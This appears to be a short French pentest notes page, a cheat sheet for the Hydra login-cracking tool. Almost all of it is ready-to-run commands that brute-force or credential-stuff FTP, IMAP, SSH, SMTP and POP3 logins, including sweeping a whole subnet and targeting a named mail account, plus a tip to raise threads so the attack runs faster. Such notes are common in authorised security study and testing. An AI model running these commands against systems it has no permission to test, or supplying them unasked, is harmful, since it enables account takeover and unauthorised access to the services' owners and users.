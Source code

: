 ```yaml
---
public: true # set to true to make the article publishable
---
```

```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```
Plus d'exemple d'utilisation de l'outil : [[Hydra]]
## Augmenter la rapidité de l'attaque

On peut utiliser `-t 64` pour augmenter le nombre de threads

```
hydra -l sam -P mut_password.list ftp://$TARGET_IP -t 64 
```

[[Hydra]]